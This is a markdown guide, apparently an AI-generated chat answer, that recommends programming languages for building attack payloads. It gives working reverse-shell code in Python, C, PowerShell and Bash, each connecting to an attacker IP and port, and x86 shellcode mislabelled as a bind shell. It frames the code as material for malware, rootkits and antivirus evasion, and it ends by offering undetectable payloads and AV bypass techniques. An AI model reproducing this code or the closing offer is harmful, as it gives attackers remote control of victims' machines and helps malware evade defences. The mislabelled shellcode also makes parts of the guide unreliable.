 
# Best Programming Languages for Networking & Payload Creation

## 1. Python 🐍 (Best for Beginners & Automation)
### 🔹 Why?
✔ Easy to write & understand  
✔ Powerful networking libraries (socket, scapy, paramiko, requests)  
✔ Used in tools like Metasploit, Empire, and Cobalt Strike  
✔ Can create payloads for reverse shells, bind shells, backdoors, and exploits  

### 🔹 Example: Simple Reverse Shell
```python
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.100", 4444))  # Attacker's IP & Port
while True:
    cmd = s.recv(1024).decode()
    if cmd.lower() == "exit":
        break
    output = subprocess.getoutput(cmd)
    s.send(output.encode())
s.close()
```

## 2. C / C++ (Best for Low-Level Exploits)
### 🔹 Why?
✔ Direct memory manipulation (buffer overflows, shellcode injection)  
✔ Used for writing malware, rootkits, and kernel exploits  
✔ Can create highly undetectable (FUD) payloads  
✔ Used for Windows/Linux backdoors  

### 🔹 Example: Simple Windows Reverse Shell
```c
#include <winsock2.h>
#include <stdio.h>

#pragma comment(lib,"ws2_32.lib")

void main() {
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    char buffer[1024];
    
    WSAStartup(MAKEWORD(2,2), &wsa);
    s = socket(AF_INET, SOCK_STREAM, 0);
    
    server.sin_addr.s_addr = inet_addr("192.168.1.100");
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    
    connect(s, (struct sockaddr*)&server, sizeof(server));
    
    while(1) {
        recv(s, buffer, sizeof(buffer), 0);
        system(buffer);
    }
}
```

## 3. PowerShell 🖥 (Best for Windows Exploits & Red Teaming)
### 🔹 Why?
✔ Used for Windows payloads, post-exploitation, privilege escalation  
✔ Built-in Windows support, no need for external dependencies  
✔ Can bypass antivirus (AV) and Windows Defender  

### 🔹 Example: PowerShell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.100", 4444)
$stream = $client.GetStream()
$buffer = New-Object byte[] 1024
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS > "
    $sdata = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sdata, 0, $sdata.Length)
    $stream.Flush()
}
```

## 4. Bash 🖥 (Best for Linux Payloads & Quick Exploits)
### 🔹 Why?
✔ Default on Linux, no extra tools needed  
✔ Can be used for backdoors, reverse shells, persistence scripts  
✔ Good for automating exploits  

### 🔹 Example: Bash Reverse Shell
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

## 5. Assembly (Best for Advanced Exploits & Shellcode)
### 🔹 Why?
✔ Used for buffer overflow exploits, shellcode injection  
✔ Direct control over CPU & memory  
✔ Required for writing stealthy malware & rootkits  

### 🔹 Example: Linux Shell Bind Shell (x86 Assembly)
```assembly
section .text
global _start

_start:
    xor eax, eax
    push eax
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80
```

## Which One is Best for You?

| Language   | Best For               | Use Cases                      |
|------------|------------------------|--------------------------------|
| **Python** | Networking, automation  | Reverse shells, exploits, malware |
| **C/C++**  | Low-level exploits      | Rootkits, AV evasion, kernel hacking |
| **PowerShell** | Windows payloads    | Red teaming, post-exploitation |
| **Bash**   | Linux payloads          | Quick reverse shells, automation |
| **Assembly** | Advanced exploits     | Shellcode, buffer overflows |

If you want to easily create payloads, start with **Python** and **PowerShell**. But if you're into low-level hacking, learn **C, Assembly, and Reverse Engineering**.

---

### Would you like examples of FUD (Fully Undetectable) payloads or AV bypass techniques? 🚀

